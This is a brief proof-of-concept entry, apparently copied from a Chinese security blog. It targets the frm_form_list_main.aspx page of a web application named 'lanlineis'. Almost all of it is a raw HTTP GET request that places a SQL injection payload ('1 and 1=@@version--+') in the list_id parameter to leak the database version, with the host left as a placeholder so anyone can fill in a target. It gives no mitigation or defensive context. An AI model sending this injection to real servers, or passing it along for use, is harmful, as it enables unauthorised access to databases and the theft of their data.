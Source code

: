 # lanlineis_frm_form_list_main_sql
2024/1/15
from： https://blog.csdn.net/luochen2436/article/details/135506112?spm=1001.2014.3001.5502

@2
```
GET /frm/frm_form_list_main.aspx?list_id=1%20and%201=@@version--+ HTTP/1.1
Host:your_ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```
